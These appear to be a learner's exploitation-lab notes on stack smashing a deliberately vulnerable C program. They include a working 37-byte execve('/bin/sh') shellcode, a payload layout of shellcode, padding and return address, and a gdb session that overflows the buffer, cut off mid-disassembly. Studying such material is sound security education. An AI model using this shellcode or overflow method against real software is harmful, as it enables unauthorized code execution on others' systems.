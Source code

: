 ```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/shellcodin$ ./bin/vulnprog `printf "\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"`
$ id
uid=1000(noobuntu) gid=1000(noobuntu) groups=1000(noobuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
$
```

## Stack smashing with shell code

- What follows are the attempts to exploit __`nightmare/04-overflows/function_calling/silly.c`__ program using the shell code we created.

### Attempt #1

```sh
                   .-------------------------.
                   |                         |
                   v                         |
    ./vulnerable 5 <shell-code><padding><address-of-buf>
```

- This approach will fail, because the padding is after our shellcode, our shellcode will also contain the padding which isn't valid.
- Length of our shell code is 37:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/shellcodin$ printf "\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" | wc -c
37
```

- Following is a gdb analysis:

```sh
(gdb) r 5 `python3 -c "import sys; sys.stdout.buffer.write(b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'A'*11+b'\x9c\xcf\xff\xff')"`
Starting program: silly 5 `python3 -c "import sys; sys.stdout.buffer.write(b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'A'*11+b'\x9c\xcf\xff\xff')"`

Breakpoint 1, main (argc=3, argv=0xffffd074) at silly.c:26
26      in silly.c
(gdb) c
Continuing.

Breakpoint 2, vuln (n=5,
    str=0xffffd29d "\353\027^1\300PV1Ұ\v\211\363\211\341̀1\300\260\0011\333̀\350\344\377\377\377/bin/sh", 'A' <repeats 11 times>, "\234\317\377\377")
    at silly.c:14
14      in silly.c
(gdb)
(gdb) ds
Dump of assembler code for function vuln:
   0x080491ec <+0>:     push   ebp
   0x080491ed <+1>:     mov    ebp,esp
   0x080491ef <+3>:     push   ebx
   0x080491f0 <+4>:     sub    esp,0x34
   0x080491f3 <+7>:     call   0x80490d0 <__x86.get_pc_thunk.bx>
   0x080491f8 <+12>:    add    ebx,0x2dfc
=> 0x080491fe <+18>:    mov    DWORD PTR [ebp-0xc],0x0
   0x08049205 <+25>:    sub    esp,0x8
   0x08049208 <+28>:    push   DWORD PTR [ebp+0xc]
```
